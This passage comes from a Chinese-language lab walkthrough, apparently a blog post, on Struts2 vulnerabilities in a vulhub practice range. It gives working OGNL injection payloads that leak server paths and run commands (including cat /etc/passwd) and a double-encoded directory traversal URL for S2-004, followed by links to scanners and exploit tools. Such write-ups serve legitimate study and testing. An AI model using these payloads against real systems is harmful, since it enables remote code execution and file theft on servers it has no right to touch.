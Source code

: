在 password 地方输入%{1+1}，点击登陆，发现报错返回解析成了 2，证明漏洞存在

获取 tomcat 执行路径：

```
%{"tomcatBinDir{"+@java.lang.System@getProperty("user.dir")+"}"}
```

![][11]

获取 Web 路径：

```
%{#req=@org.apache.struts2.ServletActionContext@getRequest(),#response=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse").getWriter(),#response.println(#req.getRealPath('/')),#response.flush(),#response.close()}
```

![][12]

执行命令：

```
%{#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"pwd"})).redirectErrorStream(true).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),#f.getWriter().println(new java.lang.String(#e)),#f.getWriter().flush(),#f.getWriter().close()}

```

![][13]

如果命令加参数：`new java.lang.String[]{"cat","/etc/passwd"}`

拿到`flag`

![][14]

## S2-004

目录遍历漏洞

漏洞介绍：

> Struts2 Dispatcher Logic by Design 允许为请求 URI 的 Web 应用程序类路径中的某些静态资源提供服务，请求 URI 的上下文相关路径以“/struts/”开头。filterDispatcher（在 2.0 中）和 defaultStaticContentLoader（在 2.1 中）存在安全漏洞，允许攻击者使用双编码 URL 和相对路径遍历目录结构并下载“static”内容文件夹之外的文件。
> 这说明存在文件遍历漏洞，相对路径遍历是../../../的方式，但需要双编码，所以需要将../两次 URL 编码为..%252f

靶场实操：

![][15]

根据提示，`key`在`showcase.jsp`这个页面中，通过目录遍历获得`key`：

```
URL/struts/..%252f..%252f..%252f..%252f..%252f..%252fshowcase.jsp
```


[1]: https://github.com/HatBoy/Struts2-Scan
[2]: https://img.soapffz.com/archives_img/2020/03/21/archives_20200321_135731.png
[3]: https://img.soapffz.com/archives_img/2020/03/21/archives_20200321_135254.png
[4]: https://github.com/Lucifer1993/struts-scan
[5]: https://img.soapffz.com/archives_img/2020/03/21/archives_20200321_142550.png
[6]: https://github.com/k8gege/K8tools/blob/master/K8_Struts2_EXP%20S2-045%20%26%20%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0%2020170310.rar
[7]: https://img.soapffz.com/archives_img/2020/03/21/archives_20200321_151534.png
[8]: https://img.soapffz.com/archives_img/2020/03/21/archives_20200321_171648.png
[9]: http://sec.lz520520.cn:88/article/7.html
[10]: https://img.soapffz.com/archives_img/2020/03/21/archives_20200321_134126.png
[11]: https://img.soapffz.com/archives_img/2020/03/21/archives_20200321_134417.png
[12]: https://img.soapffz.com/archives_img/2020/03/21/archives_20200321_134606.png
[13]: https://img.soapffz.com/archives_img/2020/03/21/archives_20200321_134710.png
[14]: https://img.soapffz.com/archives_img/2020/03/21/archives_20200321_145451.png
[15]: https://img.soapffz.com/archives_img/2020/03/21/archives_20200321_144112.png
[16]: https://img.soapffz.com/archives_img/2020/03/21/archives_20200321_145248.png
[17]: https://img.soapffz.com/archives_img/2020/03/21/archives_20200321_151159.png
[18]: https://img.soapffz.com/archives_img/2020/03/21/archives_20200321_171511.png
[19]: https://img.soapffz.com/archives_img/2020/03/21/archives_20200321_172415.png
[20]: https://img.soapffz.com/archives_img/2020/03/21/archives_20200321_172605.png
[21]: https://img.soapffz.com/archives_img/2020/03/21/archives_20200321_172625.png
[22]: https://img.soapffz.com/archives_img/2020/03/21/archives_20200321_173038.png
[23]: https://img.soapffz.com/archives_img/2020/03/21/archives_20200329_102028.png
[24]: https://img.soapffz.com/archives_img/2020/03/21/archives_20200329_103249.png
[25]: https://img.soapffz.com/archives_img/2020/03/21/archives_20200329_104530.png
[26]: https://img.soapffz.com/archives_img/2020/03/21/archives_20200329_105449.png
[27]: https://img.soapffz.com/archives_img/2020/03/21/archives_20200329_105634.png
[28]: https://img.soapffz.com/archives_img/2020/03/21/archives_20200329_110202.png
[29]: https://github.com/vulhub/vulhub/tree/master/struts2
[30]: https://mp.weixin.qq.com/s/a06y_BANpGFcgS9hJAAtGw
[31]: https://mp.weixin.qq.com/s/99pPDZFA1fo-tC8U1WD7qA
[32]: https://mp.weixin.qq.com/s/6Hx1Ngb9UMtJlRMWb6s2fQ